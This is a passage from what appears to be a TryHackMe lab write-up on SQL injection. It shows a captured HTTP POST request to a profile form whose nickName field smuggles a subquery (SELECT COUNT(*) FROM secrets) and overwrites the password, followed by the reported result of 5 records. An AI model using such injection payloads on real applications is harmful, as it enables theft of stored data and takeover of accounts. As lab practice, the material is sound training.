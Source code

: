 ```sql
CREATE TABLE secrets (	id integer primary key,	author integer not null,	secret text not null)
```

Determine the number of records in the `secrets` table.

```http
POST /sesqli5/profile HTTP/1.1
Host: 10.10.109.88:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 228
Origin: http://10.10.109.88:5000
DNT: 1
Connection: close
Referer: http://10.10.109.88:5000/sesqli5/profile
Cookie: session=.eJy9z7FqAzEMBuB38ZzBOkln382l0CVb5yDbMphecqmdUkrIu9fXlNKxUzfp_0Hou5qm7XUpcEhyETNfzfPTg5lhZ_QoZTGzMTtzkqP26bHKKa6lbUmJL_t72reztHZe62Vf--5HywOzBbKevsv3taZeUfSYnY2SUSBOEimSS8NErDY7n11CFhcnIPEKHkaUqAN6gaA6Qtiu1TWXRbcfDdgeNFmkfph5YHvb_WDemtZDSV-Qe8b_AYzKUUaHCTDgCOATUwdlQNHQ3Ra6BkN2DtQB0gCBEuTkCTLjJH8F8i_g7RPqGYUc.YQqYFg.hBU1GBPvrJ7J_k0Kb6c4JLNtkGA
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

nickName=tgihf',email=(SELECT+COUNT(*)+FROM+secrets),password='d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1';--+&email=tgihf%40tryhackme.com&password=pass
```

There are 5 records.

![Pasted image 20210804100312](Pasted%20image%2020210804100312.png)
